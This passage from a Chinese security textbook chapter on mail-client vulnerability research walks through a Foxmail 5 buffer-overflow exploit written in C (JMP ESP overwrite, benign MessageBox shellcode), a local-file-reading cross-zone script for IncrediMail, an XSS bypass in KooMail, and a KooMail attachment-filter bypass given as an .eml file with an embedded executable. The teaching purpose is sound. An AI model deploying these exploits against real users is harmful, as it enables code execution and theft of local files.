// 发送邮件的目的地址，这里的目的地址同样是 test@local.com
clear(temp);
ret = send(sock, "DATA\r\n", strlen("DATA\r\n"), 0);
replay(sock, 354);
// 发送邮件的内容
fprintf(stderr, "# send evil E-mail...\n");
clear(temp);
clear(buffer);
memset(buffer, 0x41, 0x104);
sprintf(temp, "From: %s\r\n", buffer);
// 注意：这里开始构建了一个260个字节长度的、由字母A组合成的字符串
send(sock, temp, strlen(temp), 0);

clear(temp);
sprintf(temp, "\r\nquit\r\n");
send(sock, temp, strlen(temp), 0);

fprintf(stderr, "# waiting client receive mail...\n\n");
closesocket(sock);
// 最后：邮件发送完毕
```

通过上面的解释不难看出，我们这里使用的测试代码其主要工作就是利用 SMTP 命令发送了一封 From 字段为 260 个字母 A 的邮件。

用 Visual C++ 6.0 程序编译我们的测试代码 foxmail.c 为可执行文件 foxmail.exe。然后，我们打开系统自带的命令行，在命令行窗口中切换到 foxmail.exe 所在的文件目录下，输入“foxmail.exe 127.0.0.1”回车，如图 11.4 所示。

foxmail.exe 程序将会自动向我们本地搭建好的邮件服务系统发送一封测试邮件。


图11.4 运行测试程序 foxmail.exe

> 小贴士：在测试过程中，金笛邮件服务系统有时会出现邮件发送成功，但是却不存在于“收件箱”中。此时读者可以通过浏览器登录金笛邮件服务系统的 Web Mail，然后可以在“发件箱”中找到我们发送的测试邮件，将其转移到“收件箱”中。因为 Foxmail 5 程序只接收“收件箱”中的邮件。

## 第11章 邮件客户端软件的漏洞挖掘


图11.5 移动测试邮件到收件箱中


图11.6 在 Foxmail 5 中建立新账户


图11.7 接收邮件后 Foxmail 发生了溢出错误

现在，让我们启动 Foxmail 程序，然后新建一个账户，账户对应着我们前面使用的 test@local.com。该账户的属性如图 11.6 所示。

建立好 test@local.com 这个账户后，我们将使用它来接收刚才我们发送的测试邮件。直接点击 Foxmail 5 程序左上方的“收取”按钮，如图 11.7 所示。毫无疑问，这是一个典型缓冲区溢出出错后的画面。

通过我们的 foxmail.c 测试代码，我们构建了包含过长 From 字段的测试邮件，然后借助这封邮件我们成功挖掘到了 Foxmail 5 程序的一个缓冲区溢出漏洞。其实 foxmail.c 这个测试代码已经是一个通用的测试代码，我们借助 foxmail.c 可以构建包含任意数据的测试邮件。

然后，就可以利用邮件客户端软件来接收这些测试邮件，从而挖掘出邮件客户端软件在处理邮件内容时是否存在安全漏洞。大家可以参照本案例，自己动手选择一个邮件客户端软件来进行一下漏洞挖掘，说不定你就会获得一个惊喜。

既然将漏洞挖掘出来了，我们就顺便看一看如何利用这个漏洞。通过修改 foxmail.c 中“buffer”变量的长度，我们测试出在“buffer”长度为 256 个字节后的四个字节数据将会覆盖到 Foxmail 5 程序的一个函数返回地址。

为此，我们可以将一个 JMP ESP 指令的地址替换“buffer”变量中从 256 字节开始往后的四个字节。注意，按照以往的经验，我们此刻应该将 ShellCode 代码紧跟在 JMP ESP 指令地址后面，用代码来表示如下所示。

```text
AAAA*256 + JMP ESP指令地址 + ShellCode
```

但是，如果我们采用这种模式来构建 buffer 变量，在我们发送了这封测试邮件后，Foxmail 5 程序接收该邮件后的效果如图 11.8 所示（这里暂时将 JMP ESP 指令的地址设定为 0x41414141）。


图11.8 不同的错误提示画面

我们看到，此刻图 11.7 中显示的错误提示为“Write of address 41414141”，即内存地址 41414141 为不可写。这完全不同于我们在前面图 11.6 中见到的那个画面，这是因为过长的 buffer 变量构建出的邮件反而会造成 Foxmail 5 程序发生内存写错误，导致我们无法成功利用其缓冲区溢出漏洞来执行 ShellCode。

为了解决这个问题，我们的办法是将 ShellCode 放在 JMP ESP 指令地址的前面，同时，JMP ESP 指令地址的后面放上一段向前跳转的命令，如下所示。

```text
AAAA = ShellCode + JMP ESP 指令地址 + JMP -0x80
```

当 Foxmail 5 程序接收到包含这样数据的测试邮件后，它首先触发缓冲区溢出漏洞，其函数返回地址被覆盖为 JMP ESP 指令地址，CPU 执行 JMP ESP 指令，跳转到 JMP -0x80 这个指令所在地址上，于是 CPU 执行该指令从而又跳转到放置在 JMP ESP 指令地址前面的 ShellCode 内存地址上去，最终成功执行我们的 ShellCode 代码。

有了思路，我们的利用代码也就能够写出来了，我这里将主要部分给大家摘录出来，具体代码见光盘中的 foxmailexploit.c 文件。

```cpp
int ...
int sock ...
int ret ...
char buffer[1000], temp[4096];
char msg[512];
WSADATA ws;

char ShellCode[] =
"\x33\xD4"      // XOR EBX, EBX
"\x53"          // PUSH EBX
"\x53"          // PUSH EBX
"\x53"          // PUSH EBX
"\x53"          // PUSH EBX，以上四条指令用来向 MessageBoxA 函数传递参数
"\xB8\xEA\x04\xD5\x77"  // MOV EAX, user32!MessageBoxA
// 将 MessageBoxA 函数的地址放到 EAX 寄存器
"\xFF\xD0";     // CALL EAX，调用 MessageBoxA 函数弹出一个对话框

// 这是我们第2章中用过的那个弹出一个错误对话框的 ShellCode
if (WSAStartup(MAKEWORD(2, 2), &ws) != 0) {
    printf("WSAStartup failed\n");
    WSACleanup();
    exit(1);
}

// 连接邮件服务器
if ((sock = new_tcpConnect(smtpaddr, 25, 4000)) <= 0) {
    perror("new_tcpConnect");
    exit(0);
}

/* smtp auths */
fprintf(stderr, "# smtp authentication ...\n");
```

```c
replay(sock, 220);

clear(temp);
ret = send(sock, "EHLO server\r\n", strlen("EHLO server\r\n"), 0);
replay(sock, 250);

clear(temp);
ret = send(sock, "AUTH LOGIN\r\n", strlen("AUTH LOGIN\r\n"), 0);
replay(sock, 334);
// 用户名
clear(temp);
ret = Base64Encode(msg, (const unsigned char *)"test@local.com", strlen("test@local.com"));
msg[ret] = '\0';
strcat(msg, "\r\n");
ret = send(sock, msg, strlen(msg), 0);
replay(sock, 334);
// 口令验证
clear(temp);
ret = Base64Encode(msg, (const unsigned char *)"123456", strlen("123456"));
msg[ret] = '\0';
strcat(msg, "\r\n");
ret = send(sock, msg, strlen(msg), 0);
replay(sock, 235);
// 发送地址
clear(temp);
ret = send(sock, "MAIL FROM: <test@local.com>\r\n", strlen("MAIL FROM: <test@local.com>\r\n"), 0);
replay(sock, 250);
// 接收地址
clear(temp);
sprintf(temp, "RCPT TO: <%s>\r\n", emailaddr);
ret = send(sock, temp, strlen(temp), 0);
replay(sock, 250);
// 数据
clear(temp);
ret = send(sock, "DATA\r\n", strlen("DATA\r\n"), 0);
replay(sock, 354);

fprintf(stderr, "# send evil E-mail......\n");
// 构造定点
clear(temp);
clear(buffer);

memset(buffer, 'A', 0x104);
memcpy(buffer + 190, ShellCode, sizeof(ShellCode) - 1);
// ShellCode 代码被放置在了 JMP ESP 指令地址的前面
buffer[256] = '\x12';
buffer[257] = '\x45';
buffer[258] = '\xFA';
buffer[259] = '\x7F';

// 放入 JMP ESP 指令的地址，这是一个通用地址，适合于 Windows 2000、Windows XP、Windows 2003 系统
buffer[260] = '\xEB';
buffer[261] = '\x7E';

// 这就是 JMP -0x80 指令，目的是控制 CPU 回跳到前面的 ShellCode 地址上去执行我们的 ShellCode
```

```c
sprintf(temp, "From: %s\r\n", buffer);
send(sock, temp, strlen(temp), 0);
// ...
clear(temp);
sprintf(temp, "\r\nquit\r\n");
send(sock, temp, strlen(temp), 0);

fprintf(stderr, "# waiting client receive mail...\r\n");
closesocket(sock);

return 0;
```

### 11.3 危险的脚本

#### 11.3.1 功能丰富背后的代价

随着用户需求的提高，邮件客户端软件的功能也变得日益丰富起来。很多邮件客户端软件带有一些非常人性化的设计。例如，邮件客户端软件可以定时自动接收新邮件，并且在接收到新邮件后会给出动画或者音乐提醒。这些丰富的用户功能，在方便用户使用的同时也引发了安全问题的发生。

在本章后面的章节中，我们将把邮件客户端软件的这些额外功能作为研究对象，来挖掘因为这些额外功能而产生的安全漏洞。其中，很多安全漏洞的危害性非常大，例如下面我们将要介绍的这种安全漏洞就是其中之一。

#### 11.3.2 邮件中的跨域漏洞

在过去，通过邮件客户端软件发送的电子邮件都是一些文字信息，即使是发送图片，也是作为邮件的附件来发送的。这种做法大大局限了用户的使用，如果用户想要在邮件中插入图片，那么应该怎么解决？邮件客户端软件的设计者开始设想：如果让邮件客户端软件支持网页脚本代码，像浏览器软件那样，不就可以在一封邮件中即包含有图片，又可以有文字，甚至还可以有音乐等等。

于是，现在我们常见的邮件客户端软件都具有了对网页脚本代码的支持，用户在写邮件时直接可以在邮件中插入网页脚本代码来实现丰富多彩的邮件内容。

但是，这种功能在某种程度上也使得邮件客户端软件会发生浏览器软件出现的安全漏洞，而这其中最危险的就是跨域漏洞。

邮件客户端软件是运行在用户本地系统上的软件，而邮件可以是来自远程的服务器。如果邮件客户端软件存在跨域漏洞，那么攻击者就可以借助邮件来实现对用户系统的控制。这听上去似乎不可能，那么就请大家看一看下面的这个案例，你就会了解到这种漏洞的危害与挖掘过程。

#### 11.3.3 实战 IncrediMail 邮件脚本跨域执行漏洞

首先，还是漏洞挖掘环境的介绍。

| 项目 | 内容 |
|---|---|
| 操作系统 | Windows XP SP2 32位版本 |
| 漏洞测试目标软件 | IncrediMail 2.0 版本 |
| 漏洞挖掘辅助软件 | Turbomail 4.5，WinHex 11.15 |

## 第11章 邮件客户端软件的漏洞挖掘

IncrediMail 是国外一个备受欢迎的邮件客户端软件，让我们来看一看对它的介绍：IncrediMail 是一个与众不同的 E-mail 软件。它具有非常酷的视窗界面、寄信动画效果、可爱的收件信差。还有很多的信签、动画、音效、卡片等，可以组合成非常炫的电子邮件。让写 E-mail 和看 E-mail 都变成新鲜的体验。全新 Xe 版本加入表情符号 Emoticons，让您以另一种方式表达自己的感受；收发邮件后自动断线；使用“Random Notifier”卡通造型进行新邮件提醒；风格化信箱导航工具给您更多控制权限，邮件生成器中加入新的内容制作工具，风格化信箱提供超级链接访问功能；全面支持 MSN。我们这里测试的 IncrediMail 是最新的 IncrediMail 2.0 版本，Build ID 6064501。如图 11.9 所示。


图11.9 被测试 IncrediMail 软件的版本号

在安装 IncrediMail 的过程中，该软件会要求设置你的电子邮件账户信息，例如接收邮件服务器地址等。默认情况下，IncrediMail 将提供给用户一些常用的互联网电子邮件提供商的地址，如微软的 Live 邮箱、雅虎邮箱等等，如图 11.10 所示。


图11.10 IncrediMail 提供一些常用的互联网电子邮件提供商地址

> **小贴士**：这里，我们可能需要在本地计算机上搭建一个邮件服务环境，也就是安装一个邮件服务程序。我们这里安装的是 Turbomail 邮件服务程序。为此，在进行图 11.10 的配置时，我们需要选择“Other”选项进行邮件账户的设置。设置过程中只要注意将接收以及发送邮件的 IP 地址设置为 127.0.0.1 即可。

设置完毕后，我们就可以使用 IncrediMail 来接收发送电子邮件。这里，我们首先通过 Turbomail 的 Web Mail 系统来创建一封测试邮件，这封测试邮件的主要目的是检查 IncrediMail 对邮件中脚本过滤的情况。如图 11.11 所示。


图11.11 通过 Turbomail 创建一封测试邮件

大家注意看图 11.11，我们在这封测试邮件中的主题部分输入了一段存在有跨站攻击的脚本语句。

> **小贴士**：之所以选在邮件的“主题”部分进行测试，是由于我们在测试一些邮件系统安全的长期实践中，发现邮件“主题”部分往往成为漏洞存在的首要地方。

现在，发送这封邮件，然后等待几秒钟，以便让本地搭建的邮件服务器能够正确发送该邮件。几秒钟后，我们使用 IncrediMail 来接收这封邮件，点击 IncrediMail 上方工具栏中的“Get Mail”按钮，IncrediMail 将立即连接邮件服务器接收新邮件，如图 11.12 所示。

在邮件接收完毕后，IncrediMail 会使用一段小动画来提醒用户有新邮件到达。这种非常可爱的功能，也正是 IncrediMail 深受用户喜欢的重要原因之一。


图11.12 IncrediMail 接收到测试邮件

在用鼠标点击处于 IncrediMail 中央的新邮件后，IncrediMail 会在界面的下方将邮件内容显示出来，此时我们并没有看到 IncrediMail 执行我们测试邮件中的脚本代码；但是，请你现在双击“A11”栏目中那封测试邮件，你会发现 IncrediMail 会打开一个新的窗口将邮件内容显示出来，这个时候，跨站漏洞发生了！如图 11.13 所示。


图11.13 跨站攻击测试语句被执行

毫无疑问，图 11.13 中显示的对话框中的内容“look! Here is a xss!”确实来自于我们的测试邮件中的主题部分。因为，我们正好就是在测试邮件的主题部分插入了一段跨站攻击代码。

虽然说，此刻我们发现 IncrediMail 存在严重的脚本执行安全漏洞，但是，这个漏洞却表现得过于“暴露”。什么意思呢？首先，用来触发 IncrediMail 的脚本执行代码处于测试邮件的主题部分，当一封攻击邮件被用户使用 IncrediMail 接收后，其主题部分的内容会直接显示在图 11.12 的中央部分，也就是说，攻击者的恶意代码就会直接显示在 IncrediMail 的界面上，稍微懂得一些网络知识的用户马上会发现这封邮件的异常，从而不会轻易去打开这封邮件。其次，我们测试邮件中的脚本代码要想被 IncrediMail 执行，必须让用户双击打开这封邮件才可以触发，而一般情况下，用户多半选择单击新邮件就可以查看到邮件内容，何必选择双击去打开邮件呢？除非是转发或者编辑这封邮件。

于是，我们现在需要重新测试 IncrediMail，看看能不能让我们发现的漏洞隐藏执行。既然一份新邮件的主题和时间信息会被 IncrediMail 直接显示在程序界面上而显得过于明显，那么我们如果将攻击代码放入到邮件的内容部分，不就可以躲过被暴露的可能。

现在，我们重新在本地邮件服务系统上创建一封邮件。这一次，我们将脚本代码放入到邮件的内容部分，而不再是主题部分。再次发送该测试邮件，用 IncrediMail 接收。现在，请大家注意，还没等我们双击这封新的测试邮件，一个大大的对话框就弹出来了，如图 11.14 所示。

这一次我们的脚本非常隐蔽地被 IncrediMail 执行了，没有任何明显的提示，没有双击邮件打开的要求，仅仅一个单击，邮件内容中的脚本代码就被顺利地执行了。对于 Web 应用程序来说，一旦我们发现脚本执行漏洞，就可以做很多事情。

## 第11章 邮件客户端软件的漏洞挖掘

图 11.14 这次不用打开邮件脚本代码就被执行了

对一个应用程序来说，脚本执行漏洞最大的危害不在于挂马或者隐藏的恶意网页访问，而是看能不能造成跨域脚本执行。这是因为，应用程序往往处于本地系统中，如果脚本能够获得本地执行的权限，就可以调用本地系统中的一些组件来完成对本地用户系统的操作，如添加系统用户或者获取本地敏感信息等。但是，一般来说，应用程序在处理脚本代码时会区分远程域和本地域，就像浏览器那样，不会轻易让一段恶意的脚本代码获得本地域的执行权限。

图 11.15 读出了 boot.ini 文件的内容

既然这样，就让我们测试看看 IncrediMail 的开发者有没有如此细致地考虑自己软件的安全性。我们换了一段脚本代码，很简单，利用 XMLHTTP 组件来读取本地 C 盘上的 boot.ini 文件内容；默认情况下，只有获得本地权限后，我们才能够利用 XMLHTTP 组件来读取本地 C 盘上的 boot.ini 文件内容，否则脚本将不会被成功执行。我们首先来做一个测试，请大家将下面的代码保存为 readlocalfile.htm。

```html
<script>
var XmlHttp = new ActiveXObject("Microsoft.XMLHTTP");
XmlHttp.Open("get", "c:\\boot.ini", true);
XmlHttp.send(null);
alert(XmlHttp.responseText);
</script>
```

这段代码中，我们利用 JavaScript 语言首先创建了一个 XMLHTTP 组件对象，然后，我们调用它的 Open 外部接口，向该接口传递一个文件名“c:\\boot.ini”，目的就是想要利用 XMLHTTP 组件对象来读取本地 C 盘上的 boot.ini 这个文件的内容，最后，调用 alert 函数将读取到的内容以对话框的形式显示出来。

将 readlocalfile.htm 上传到 IIS 的 Web 目录当中，这时如果你使用 Internet Explorer 浏览器远程访问这个 readlocalfile.htm 会发现，浏览器根本不会弹出任何对话框，因为 readlocalfile.htm 文件处于远程域当中，根据安全要求，它其中的代码不能被执行。可是如果你直接用浏览器打开 readlocalfile.htm 文件，你会发现浏览器弹出了一个对话框，其中清晰地显示着你计算机 C 盘上的 boot.ini 这个文件的内容，如图 11.15 所示。通过上面这个测试，我们证明了要想利用 XMLHTTP 组件对象来读取本地磁盘上的文件内容，必须首先具有本地域权限。现在，让我们将 readlocalfile.htm 文件的代码插入到测试邮件中，然后发送，用 IncrediMail 接收该测试邮件看看会发生什么事情，如图 11.16 所示。

图 11.16 IncrediMail 接收测试邮件后竟然读取了本地 boot.ini 文件的内容

真是令人吃惊，我们在图 11.16 中竟然看到了本地 C 盘上 boot.ini 文件的全部内容，这就意味着，IncrediMail 的脚本执行漏洞已经上升成为跨域脚本执行漏洞。

这种跨域脚本执行漏洞的危害不言而喻，恶意攻击者甚至可以借助这个漏洞，将包含有添加用户命令的脚本代码放入到邮件当中，一旦用户使用 IncrediMail 接收这封邮件，不需要用户双击打开邮件，只要用户一点开新邮件，邮件中的恶意脚本代码就会立即执行，从而实现远程在用户系统中添加一个新用户。

漏洞找到了，那么，究竟是什么原因造成 IncrediMail 发生跨域脚本执行漏洞的呢？

第一个能够想到的就是 IncrediMail 对邮件的内容没有进行应有的基本安全检查。一般来说，一封邮件中包含的内容往往是文字或者图片信息，如果一封邮件中包含了网页脚本代码，如 HTML 语言或者 JavaScript 语言等，作为邮件客户端软件，此刻就应当严格检查邮件中的网页脚本代码是否存在恶意代码。如果不做安全检查，那么就应当直接屏蔽邮件中的网页脚本代码。

图 11.17 选择“Inbox”的“Properties”选项

图 11.18 用 WinHex 打开 Inbox.imm 文件

第二个原因是 IncrediMail 对包含有网页脚本代码的邮件当做脚本邮件来展现，而不像其他邮件客户端软件向用户提供两个模式来查看邮件：即一个是文本模式，一个才是脚本模式。在脚本模式下，邮件客户端软件将包含有网页脚本代码的邮件像浏览器软件那样，运行邮件中的网页脚本代码。这样一来，邮件中的网页脚本代码就获得了被执行的机会。

最后一个原因是 IncrediMail 在接收到一封新的邮件后，会将邮件内容写入到安装 IncrediMail 软件自己的本地计算机磁盘上。我们可以用鼠标右击 IncrediMail 左侧的 Inbox，选择菜单中的“Properties”即属性，如图 11.17 所示。

从图 11.17 中我们可以看到，其实 IncrediMail 的“Inbox”即收件箱，它所对应的是本地计算机磁盘上的一个文件。这里演示的计算机上，IncrediMail 的“Inbox”路径为 D:\Documents and Settings\awy\LocalSettings\ApplicationData\IM\Identities\{A5ADD8CA-0501-444F-BF87-30BFF2F37075}\Message Store\Inbox.imm。

现在，让我们使用 WinHex 打开这个文件，如图 11.18 所示。我们发现这个“Inbox.imm”文件中其实就保存着所有被 IncrediMail 接收到的邮件内容信息。

于是，当我们在 IncrediMail 中打开一封新接收到的邮件时，IncrediMail 其实是从“Inbox.imm”文件中读取显示这封邮件的内容信息。这个时候，原本是远程的邮件内容已经被转移到了本地磁盘上，因此，脚本执行漏洞就越级晋升为了跨域脚本执行漏洞。

不安全的邮件显示模式应该是 IncrediMail 出现安全漏洞的最根本原因。为了避免这种漏洞的发生，很多邮件客户端软件在显示邮件的时候都会默认为文本显示，当用户切换为脚本模式显示邮件时，软件都会给出安全警告提示，甚至一些优秀的软件会自动禁止或者过滤邮件中的恶意脚本，保护使用者的系统安全。但是，有些邮件客户端软件虽然对邮件内容中的网页脚本代码做了一定的安全防范，可是，我们还是能够找到办法突破这些安全防范机制，最终挖掘出邮件跨域脚本执行漏洞，下面 11.3.4 小节中为读者带来的就属于这样一个非常经典的案例，让我们赶紧一起来学习一下。

#### 11.3.4 巧妙思路挖掘 KooMail 5.62 XSS 0day 漏洞

KooMail 是由酷邮工作组开发的一款针对国人的邮件客户端软件，其官方网址为 http://www.koomail.com。从官方网站上，我们下载了最新版的 KooMail 软件，版本号为 5.62 Build 1690，如图 11.19 所示。

KooMail 的安装使用非常简单，很容易操作，你只需要正确地设置你的邮件地址和邮件接收发送服务器就可以。但是，在使用过程中，我们发现 KooMail 存在一个非常严重的安全漏洞。

请大家仔细看图 11.20 这张截图中底部显示的内容，KooMail 软件在接收到一封新的邮件的时候，采用了两种显示邮件内容的方式，一种是文本形式，一种是网页形式。

网页形式，这个就是我们在前面 11.4.2 小节中提到的邮件客户端显示邮件时的两种模式之一的脚本模式。如果一封邮件中存在网页脚本代码，KooMail 的网页形式就会执行这些脚本代码。现在，我们就需要质疑 KooMail 是否存在一种最为危险的安全漏洞——跨域脚本执行漏洞。

KooMail 在处理带有 HTML 代码的邮件时，它建立了一定的机制可以防止邮件中的脚本被执行，如图 11.21 所示。

结合这种安全机制，KooMail 在使用时也是默认以文本的形式来显示一封邮件的内容。

这个时候，你会问，既然采用文本形式显示邮件内容，而且 KooMail 的默认设置又是禁止所有脚本、禁止弹出窗口的，你怎么可能发现 KooMail 存在跨域脚本执行漏洞呢？

刚开始的时候，KooMail 默认的文本显示邮件内容的方式我们确实没有办法突破，除非有些人在使用 KooMail 的时候选择了以网页形式来显示邮件内容。这个时候，我们就可以非常轻松地触发 KooMail 的脚本执行漏洞（注意这里只是脚本执行漏洞，是否是跨域脚本执行漏洞我们放在后面的测试中为读者解答），如图 11.22 所示。

图 11.22 成功触发 KooMail 的脚本执行漏洞

这种傻瓜化的漏洞触发模式不是我们所期待的，但是，这也能证明 KooMail 在以网页形式显示邮件内容时，还是存在没有及时过滤网页脚本代码的缺陷，没有及时通知用户该邮件中存在可能的恶意脚本代码。

既然是要挑战自己，我们现在的目的就是想要看看能不能在 KooMail 的默认设置下，也就是所谓的文本方式显示邮件内容的机制控制下照样实现脚本执行漏洞攻击。

图 11.23 KooMail 创建邮件的“写信”界面

本来我们是一直通过本地搭建的邮件系统来发送带有脚本代码的邮件来测试 KooMail 的，也就是说，我们并没有采用 KooMail 来发送测试邮件，而只是让 KooMail 来接收测试邮件。

当我们转向利用 KooMail 软件本身来发送测试邮件时，我们终于发现了突破 KooMail 安全机制的方法。

让我们打开 KooMail，我们现在需要写一封信，点击“写信”按钮后，如图 11.23 所示。

图 11.24 打开“查看”菜单

默认情况下，KooMail 在创建一封新的邮件时，它是不允许采用源代码编辑的方式的。但是，从图 11.23 中我们明显可以看出，KooMail 创建邮件的模板完全是一个网页格式的文件。既然这样，我们现在需要将一段用来测试脚本执行漏洞的脚本代码插进邮件，这该怎么做呢？如图 11.24 所示。

在 KooMail 的“查看”菜单中，我们找到了一个突破点：显示 HTML 源码编辑。这意味着我们终于可以对邮件进行源代码级别的修改了，如图 11.25 所示。

图 11.25 我们可以进行对邮件的源代码编辑

这个时候，我们向新建的这封邮件中插入了一句恶意脚本代码：

```html
<script>alert()</script>
```

非常简单的测试用代码，目的就是想让用户在阅读邮件时，让软件弹出一个对话框。

邮件编辑完毕后，我们是不是应该马上发送这封带有测试脚本代码的邮件呢？不，这个时候，如果你发送了这封测试邮件，你会发现最终 KooMail 在接收到这封测试邮件后，它还是利用文本方式来显示该测试邮件，我们的测试脚本代码根本就不会被执行。

现在，最关键的时候到了。我们现在需要利用 KooMail 的邮件加密机制来加密这封恶意测试邮件！你怀疑自己听错了，加密？一旦加密，所有的邮件代码不都成了加密后的“乱码”，我们的测试脚本都被破坏了，怎么可能会被执行呢？这个问题，我们先不回答，让我们看看具体测试结果再说话吧。

图 11.26 使用“加密”功能对邮件加密

图 11.27 使用 KooMail 接收加密邮件

KooMail 为了使用者的安全，提供了对邮件进行加密的机制，这种机制建立在 KooMail 会将邮件打包成为一个 zip 文件；然后对这个 zip 文件进行加密，以此方式来实现对邮件的加密。

点击“高级”按钮，如图 11.26 所示。我们看到这里提供了邮件加密的选项；用鼠标点击该选项，然后我们就可以对邮件输入加密密码了。

完成了邮件的加密后，现在，我们可以发送这封加密的恶意测试邮件了。发送完毕后，我们利用 KooMail 来接收这封加密的恶意测试邮件，如图 11.27 所示。

当我们利用 KooMail 接收到这封加密的恶意测试邮件时，KooMail 首先会让我们输入邮件的加密密码，这样我们才能阅读这封邮件。现在，正确输入我们刚才加密的密码，点击“确定”按钮，意想不到的事情发生了，如图 11.28 所示。

还需要我们说什么吗？此刻，KooMail 竟然利用网页的形式来显示了被加密后带有恶意脚本的邮件，我们输入的恶意脚本代码被正确执行了。

你会发现它们现在都被 KooMail 采用网页的形式来打开了。当然，这里存在一个技巧，就是其他的邮件需要排序在加密邮件的下面。

### 11.4 来自附件的攻击

#### 11.4.1 STOP! 邮件附件!

曾经有一段时间，在网络上流行一种攻击用户系统的方法，这个方法就是将带有木马病毒性质的程序作为邮件的附件，并且在邮件内容中写上诸如“尊敬的用户，为了感谢您对我网站的支持，我们特意将最新的 xx 软件赠送给您。欢迎您的使用，期待您的再次光临。”这样的话语，利用邮件系统的功能批量发送给用户。

图 11.28 加密邮件中的脚本代码被执行了

用户在接收到邮件后，往往由于过于相信邮件内容，直接运行邮件中的附件，造成自己的系统中毒或者被安装木马程序，使得恶意攻击者借此机会成功渗透进入用户主机。

为了防范这种攻击，保护用户系统安全，作为邮件客户端软件而言，开发者开始采用对邮件附件加以限制，禁止用户直接运行邮件附件，或者在用户要运行邮件附件时给出安全警告提示。尤其针对一些属于可执行文件的邮件附件文件，邮件客户端软件更是严格审查，坚决阻止用户运行此类邮件附件文件。

这种安全机制在一定程度上防止了借助邮件附件文件传播木马病毒程序的恶意攻击行为，有效地保护了用户系统的安全。但是，事情并没有想象的那样完美，邮件客户端软件的这种安全机制在某些特殊的情况下，还是会被轻而易举地绕过，这种安全漏洞我们就称之为“邮件客户端软件的附件安全机制绕过漏洞”。

下面，我们将以两个不同的案例来为读者展示邮件客户端软件附件安全机制绕过漏洞的挖掘方法，这是一个十分技巧化的漏洞挖掘方法，值得大家学习借鉴。

#### 11.4.2 实战 KooMail 附件安全机制绕过漏洞

作为邮件客户端软件，在接收到一封带有附件的邮件后，邮件客户端软件应该正确地分析出该邮件所带附件的性质，如附件是一个文本文件，还是一个图片文件。当邮件的附件是一个可执行文件时，软件应该对其做一个安全限制，当用户试图直接从邮件中打开该附件时，软件需要及时提醒用户是否真的需要打开这个可执行文件格式的附件，因为很多病毒木马程序可能就隐藏在邮件的附件文件中。

这取决于软件开发者对用户使用安全负责的态度。优秀的软件产品必然会增加安全限制的砝码。为此，KooMail 软件的开发者也在其软件上实现了这种对附件文件进行安全检查的限制机制，如图 11.29 所示。

图 11.29 KooMail 阻止了邮件中附件的执行

从图 11.29 中，大家注意到，我们所发送的测试邮件中携带了一个可执行文件格式的附件。KooMail 正确地发现了这个附件的格式，所以它会采用一个类似小窗口的图标来表示这个附件的文件格式为可执行文件。与此同时，当我们双击附件准备直接打开附件时，KooMail 给出了一个“该类型文件可能携带病毒，确认打开吗？”的友情提示对话框。这正是我们前面提到的邮件客户端软件的安全限制机制，目的是为了防止病毒木马程序随邮件进行传播和攻击用户系统。

虽然说，KooMail 软件具有了对邮件附件文件格式进行安全检查的功能，但是，我们并不能说 KooMail 软件的这种安全机制就一定非常严谨。在很多情况下，我们是可以绕过这种安全机制，从而实现罪恶的目的的。

以一般的编程思路来考虑，KooMail 检测一个文件的文件格式类型时，它肯定是首先获取附件的完整文件名，然后查找最后一个小数点，将最后一个小数点后的字符串作为文件类型的后缀名，从而识别出该附件所属文件的具体类型。这种传统的编程思路，往往在很大程度上造成安全隐患的发生。

试想，我们现在构建一个附件的名称为“1.exe”，此时，上面的编程算法将正确获得该附件的文件类型为“exe”。可是，现在我们重新构建了一个附件名称为“1.exe.”，这个时候，上面的编程算法就出现问题了，最后一个小数点后没有任何字符，此时，该附件的文件类型就会被识别为一个未知格式文件，这就会造成邮件客户端软件无法依据文件类型来做安全限制。那么，我们的猜测是否正确呢？让我们实际测试一下 KooMail 吧。

利用 base64 的算法，我们将“1.exe.”这个附件名编码为 MS51eGUu，这是因为默认的电子邮件编码格式都为 base64 格式。

现在，我们需要制造一封带有 MS51eGUu 这个附件名称的恶意邮件。由于这种带有小数点后缀的附件是无法在 Windows 系统下直接命名的，所以，我们必须修改邮件的内容，将其中包含有附件名称的地方修改为 MS51eGUu。为了读者方便，大家可以直接将以下代码保存为一个 KooMailbypassexec.eml 文件。

```
Return-Path: <test2@local.com>
Delivered-To: test2@local.com
X-TM: 127.0.0.1(local.com)[192.168.1.1],local.com,test2@local.com,test2@local.com,webmail...
```

## 第11章 邮件客户端软件的漏洞挖掘

```text
Message-ID: <1274748697500@local.com>
Date: Tue, 25 May 2010 08:51:37 +0800
Mime-Version: 1.0
From: =?GBK?B?c3dGVzdQ==?= <test2@local.com>
To: <test2@local.com>
Subject: =?GBK?B?S29vYWFpbGJ3cGExe2V4ZWM=?=
X-YM-Originating-IP: [127.0.0.1]
Content-Type: multipart/mixed;
    boundary="----=_NextPart_001_1274748697500"

------=_NextPart_001_1274748697500
Content-Type: text/html;
    charset="GBK"
Content-Transfer-Encoding: base64

PEhUTUw+PEhFQUQ+PG08TUvQSBodHRw...（大量base64内容）

------=_NextPart_001_1274748697500
Content-Type: application/octet-stream;
    name="=?GBK?B?MS5leGU=?="
Content-Transfer-Encoding: base64
Content-Disposition: attachment;
    filename="=?GBK?B?MS5leGU=?="

TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
（后续为大量base64/二进制编码文本）
```

```text
AlgBAAAAycilAP8IBCBAAP8IACBAAP8IGCBAAP8IDCBAAP8IFCBAAP8IECBAAP8IHCBAAP8I
ICBAAP8IJCBAAP8IKCBAAP8ILCBAAP8IMCBAAP8INCBAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAylOAASCEAAC4hAABwIOAAICFAA4hAAAAAAAAcCAAAAAAAAAAAAAAA17AAAAAgAACElAAA
AAAAAAAAAAACaQAAIDCAAAAAAAAAAAAAAAAAAwjAAALQgAAAAAAAA8CAAAAlhAAAASIQAA5C
AAASIOAA5CAAAB4hAAAyI0AASCEAAF4hAABwIOAAfCEAAH4hAAAAAAAAAgQBFaGI0UHjvY2Vz
cwABAUjldEiVzHVszUhhhmRsZUEAAEiQk5FTDMylLmRsbAAArpQJ3c3BYaW50ZkEAkgBEaWEs
b22dCh3hQYxUhuEAtgBFJmFhGVX8tVfkb3cAALgAPW5kRGIhbG9nALwARfW5fJbUNoWxKV2u
ZG93cwA8BgFIJZXRGb3JjZ3JvdW5kV2luZG93AloBSXNEbGdUcXdXRDb25DaGYa2VkAACNAUz
